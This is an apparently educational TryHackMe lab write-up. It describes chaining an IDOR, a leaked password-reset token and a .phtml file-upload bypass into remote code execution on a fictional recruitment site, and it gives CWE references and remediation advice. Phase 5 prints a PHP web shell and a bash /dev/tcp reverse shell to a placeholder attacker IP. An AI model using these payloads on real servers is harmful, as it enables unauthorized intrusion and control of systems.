# Guided Pentest: Web - RecruitX: IDOR to Account Takeover to File Upload RCE

**Platform:** TryHackMe
**Difficulty:** Easy
**Type:** Offensive Security / CTF (Web)
**Date:** 2026-05-21

---

## Overview

A guided web application pentest against a fictional recruitment platform called **RecruitX**. The engagement starts with zero credentials and ends with a reverse shell on the server, walking through four independently-low-severity findings that *chain* into a full compromise.

The chain: an **IDOR** (Insecure Direct Object Reference) on the profile page exposes every account in the system. The public **API** index exposes those same accounts plus their roles, identifying the administrator. The broken **password reset** flow returns the reset token in the HTTP response instead of emailing it, allowing direct account takeover. The administrator panel's **file upload** rejects *.php* extensions on the server but is fooled by *.phtml*, which Apache still parses as PHP. A web shell becomes a reverse shell, and the flag drops out of /var/www/.

No single bug here is critical. The chain is.

---

**Target:** RecruitX web application (Apache 2.4.58, PHP, MySQL on Ubuntu)

**Tools:** nmap, gobuster, curl, browser DevTools, netcat

---

## Walkthrough

### Phase 1: Reconnaissance

A standard service scan returns four open ports: **SSH on 22**, **HTTP on 80**, **MySQL on 3306**, and a secondary **HTTP on 8080**. The MySQL port being directly reachable is itself a finding worth noting (databases should not be internet-exposed) though it does not get exploited in this chain.

```bash
nmap -p- -sV <TARGET_IP>
```

Directory brute force against the web root surfaces *administrative* and *user-facing* paths.

```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```

Reachable paths of interest:

- */admin* (later shows the admin file upload page after auth)
- */api* (returns its own route index)
- */reset.php* (password reset flow)
- */uploads* (where uploaded files land)

Inspecting HTTP response headers confirms Apache plus PHP session cookies, which sets the technology stack for downstream choices (.phtml works because Apache).

```bash
curl -I http://<TARGET_IP>/
```

---

### Phase 2: IDOR - Reading Every Profile

The /profile.php page accepts a numeric *id* parameter, e.g. */profile.php?id=6*. A logged-in test user lands on their own profile by default.



Changing the *id* parameter to a lower number loads a different user's profile *without any authorization check*. This is the textbook **CWE-639: Authorization Bypass Through User-Controlled Key** (sometimes still called Insecure Direct Object Reference). The application authenticates the user (it knows who they are) but never authorizes the resource (it never asks *is this user allowed to read this profile*).



Profile id=1 belongs to **Sarah Mitchell**, the administrator.

The same flaw exists on the API. The */api/user?id=* endpoint takes the same numeric input and returns the user record as JSON, **without authentication**.

```bash
curl -s "http://<TARGET_IP>/api/user?id=1"
```



Walking the IDs from 1 upward enumerates the entire user table including names, emails, and roles.



Two pieces of intel for the next phase: the administrator's email address, and confirmation that the admin role is held by a single account.

---

### Phase 3: Broken Password Reset

The /reset.php endpoint accepts an email and is supposed to email a reset token. Submitting the administrator's email triggers the flow, but the reset token is included **directly in the HTTP response** rather than sent by email. Two problems compound it:

- The token is a **6-digit number** (one million possibilities, brute-forceable on its own in seconds).
- There is **no rate limiting** on the reset endpoint.

Either issue would be a finding. Both together, plus returning the token in the response body, is **CWE-640: Weak Password Recovery Mechanism for Forgotten Password** combined with **CWE-200: Information Exposure**.

Using the disclosed token to set a new password completes the takeover. Logging in lands on the administrator dashboard.



The role badge in the header reads *administrator*, confirming the privilege level.

---

### Phase 4: File Upload Bypass

The /admin/upload.php page lets the administrator upload files. The page restricts file types in two layers, both of which fall.

**Client-side check (HTML *accept* attribute).** The file input has an *accept* attribute listing only document MIME types. The browser uses this to filter what shows in the file picker. It is **not a security control** because the attacker controls the browser. Opening DevTools, finding the input element, and deleting the *accept* attribute removes the restriction in one click.

**Server-side extension blocklist.** Uploading a *.php* file is rejected by the server.



Apache's default configuration parses several extensions as PHP, not just *.php*. The list typically includes *.php, .php3, .php4, .php5, .php7,* and **.phtml**. The blocklist on RecruitX rejects *.php* but does not include *.phtml*.

Uploading a *.phtml* file with PHP content is accepted.



This is **CWE-434: Unrestricted Upload of File with Dangerous Type**. The fix is an *allowlist* of safe extensions and a separate MIME-type check, not a blocklist of dangerous ones. **A blocklist always misses something.**

---

### Phase 5: Web Shell to Reverse Shell to Flag

A minimal PHP web shell:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

Saved as *shell.phtml*, uploaded, and accessed at */uploads/documents/shell.phtml?cmd=id*. Apache parses it as PHP and runs the *id* command.



*whoami* through the URL confirms the user the web server runs as.



The hostname:



Upgrading from a one-shot GET-based web shell to an interactive reverse shell:

```bash
# attacker:
nc -lvnp 4444

# in the URL:
?cmd=bash -c 'bash -i >&/dev/tcp/<KALI_IP>/4444 0>&1'
```

A reverse shell lands as **www-data** on host *recruitx-prod*. From there, the flag file lives at */var/www/flag.txt*, which is readable by the web user.



For unknown filesystem locations, the generic find command finds the flag in any case:

```bash
find / -name "flag.txt" 2>/dev/null
```

---

## Vulnerability Summary

### IDOR on /profile.php and /api/user (CWE-639: Authorization Bypass Through User-Controlled Key)

The profile page and the API both accept a user-supplied *id* parameter and return the named user's record. The application authenticates but never authorizes: it never asks whether the requesting user is allowed to read the requested record.

**Remediation:** Enforce per-resource authorization on every read. The server should derive *which user is making this request* from the session and check that the user is permitted to access the requested *id*. Better still: use **opaque, unguessable identifiers** (UUIDs, random tokens) instead of sequential integers, so even a missing authorization check is not trivially walkable.

### Unauthenticated API Index (CWE-306: Missing Authentication for Critical Function)

The /api root path returns its own route list with no authentication. This is helpful for legitimate developers and *very* helpful for attackers because it discloses every endpoint, including the unauthenticated */api/user* endpoint.

**Remediation:** Restrict the API index to authenticated administrators, or remove it entirely from production. API documentation belongs in a separate developer portal, behind authentication, not on a live endpoint.

### Password Reset Token Disclosed in Response (CWE-640 + CWE-200: weak recovery + information exposure)

The /reset.php endpoint returns the reset token in the HTTP response instead of delivering it out-of-band by email. The token itself is a 6-digit number, and there is no rate limiting.

**Remediation:** Send reset tokens *only* via email, never in the response. Generate tokens as cryptographically random 32-character strings (use *random_bytes* in PHP, *crypto.randomBytes* in Node, *secrets.token_urlsafe* in Python). Expire tokens after 15 to 60 minutes. Invalidate any previously-issued tokens when a new one is requested. Rate-limit the reset endpoint per IP and per account.

### File Upload Extension Bypass (CWE-434: Unrestricted Upload of File with Dangerous Type)

The /admin/upload.php endpoint relied on a client-side *accept* attribute (no security value) and a server-side extension blocklist that did not include *.phtml*. Apache parses *.phtml* as PHP by default, so the bypass produced code execution.

**Remediation:** Use an *allowlist* of safe extensions (*.pdf, .docx, .png, .jpg*) rather than a blocklist. Validate the actual MIME type with a server-side library (*finfo_file* in PHP, *python-magic* in Python). Store uploaded files **outside the web root** and serve them through a controller that streams the bytes, so even an uploaded *.phtml* file cannot be requested directly. Drop the *x-bit* on the storage directory. Strip executable extensions from filenames on save.

---

## Key Takeaways

- **Client-side restrictions are not security.** The HTML *accept* attribute was removed in one DevTools click. Any check the browser performs is one the attacker also controls. Server-side validation is the only validation that matters.
- **Blocklists always miss something.** The server rejected *.php* but accepted *.phtml*, and Apache parses both. Build allowlists of what is permitted, not blocklists of what is forbidden.
- **Vulnerability chaining beats single-bug thinking.** No finding in this room was individually critical. The IDOR alone is medium. The reset token disclosure is high but only on one account. The upload bypass requires admin access. Strung together, they go from *zero access* to *RCE* in under an hour.
- **Opaque identifiers cost nothing and prevent IDOR by accident.** A UUID like *9a1c34de-f5b2-4f31-8c4e-1f6c3e7b9b32* is just as easy to use as id=1, but cannot be incremented to walk the user table.
- **Always run `find / -name "<target>" 2>/dev/null` when the flag's location is unknown.** It is the universal "where is this file" command on any Linux foothold, and works whether the flag is at /root, /var/www, /home, or anywhere else readable.
